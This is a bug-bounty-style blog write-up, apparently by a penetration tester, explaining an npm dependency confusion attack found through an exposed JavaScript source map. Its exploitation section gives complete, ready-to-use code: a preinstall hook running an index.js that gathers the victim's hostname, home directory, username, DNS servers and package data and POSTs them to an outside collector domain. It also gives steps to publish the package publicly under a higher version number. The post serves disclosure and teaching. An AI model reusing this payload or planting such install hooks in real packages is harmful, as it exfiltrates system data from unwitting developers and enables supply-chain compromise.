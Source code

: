 ```yaml
---
title: "Dependency Confusion Attack: A Route to RCE"
date: 2023-08-31 14:00:00 +0900
categories: [web]
tags: [web, rce]
comments: false

image:
  path: https://letsenhance.io/static/73136da51c245e80edc6ccfe44888a99/1015f/MainBefore.jpg

  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Responsive rendering of Chirpy theme on multiple devices.
---
```



Hello, amazing hackers! Today, I'm explaining one of my recent findings: the dependency confusion attack and how it can lead to remote code execution. This vulnerability was discovered during a private pen-test engagement.

---

### What is Dependency Confusion?

* A Dependency Confusion attack or supply chain substitution attack occurs when a software installer script is tricked into pulling a malicious code file from a public repository (e.g. NPM, PIP, RUBYGEMS, MVN etc.) instead of the intended file of the same name from an internal repository. The attacker can upload a package with a higher version number to the public repository.

* In this writeup, we are focusing on the **NPM** package dependency. The Dependency confusion vulnerability was discovered by [Alex Brisan](https://twitter.com/alxbrsn) and it is explained very in-depth in his [writeup](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

### Discovery

* The primary use case of the application was to analyze financial data submitted by users. During recon, I always prefer to manually review JavaScript files. While going through the HTTP requests related to JS files in Burp Suite, I observed an **app.randomnumbers.js.map** (source map) file.

* Generally, source map files are used for debugging purposes by developers. It is mapping between minified JS files and their original source JS files. I started reviewing the JS source map file and discovered some Node.js packages by searching for keywords such as `import`, `require`, and `node_modules`.

```javascript
//app.randomnumber.js.map
import {
    NameSpaces
}
from '../constants/namespaces';
import store from '../redux-store/store';
const { Trackevaluator } = require('ORGNAME-trackevaluator'); // Here ORGNAME indicates company name
const Context = require('./context').Context;
const ReferralContext = require('./referral.context').ReferralContext;
const evaluate = new Trackevaluator();
const camelize = (obj) => _.transform(obj, (acc, value, key, target) => {
    const camelKey = _.isArray(target) ? key : _.camelCase(key);
     acc[camelKey] = _.isObject(value) ? camelize(value) : value;
});
```
* During the analysis of the file, a package named `ORGNAME-trackevaluator` was found, as shown in the code snippet above. While searching this package on the [npmjs.com](https://www.npmjs.com/) gave 0 results, indicating a potential vulnerability to a dependency confusion attack.

![nopackagenpm](/assets/img/NPM1.png)
_package not found_

> NPM packages can also be found in the **package.json** and **package-lock.json** files. 
{: .prompt-tip }
* Instead of manually checking each package, we can use the tool called [confused](https://github.com/visma-prodsec/confused) to identify packages that are not hosted on public repositories.


### Exploitation

1. Create a package using `npm init` command. Make sure to provide higher version number during creation process of the package. 
2. In the **package.json** file, add the command `"preinstall" : "node index.js"` under `"scripts"` parameter as shown in below snippet.

    ![package.json_codesnippet](/assets/img/NPM1.png)
    _package.json file_

3. Create **index.js** file with mentioned below code. Make sure to change the hostname with your burpcollaborator or pipedream domain in the code.

```javascript
//index.js
//author:- whitehacker003@protonmail.com
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "eoty85f2nvs15dudw.m.pipedream.net", //replace burpcollaborator.net with Interactsh or pipedream
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });    
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();
```

{:start="4"}
4. Publish the package using `npm publish` command. Verify the published package on the npm public repository.

    ![npm1](/assets/img/NPM1.png)
    _package is hosted on the npm website_

5. The preinstall script will execute `node index.js` command. Once package is installed on the system.

* After sometime of uploading the package, I received pingbacks containing the **hostname**, **directory**, **IP address**, and **username** from many systems on my server. This was fixed quickly by the developers, once it was reported.

![npmpingback](/assets/img/NPM1.png)
_remote code execution_


### Impact

* A Dependency Confusion attack, whether opportunistic or targeted, can result in widespread infections among a vendor's customers. This can empower attackers to execute unauthorized access, steal data, deploy ransomware which disrupt operations.

### References

* [Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)

* [Dependency Confusion](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)

* [Dependency Confusion Attack – What, Why, and How?](https://redhuntlabs.com/blog/dependency-confusion-attack-what-why-and-how/)

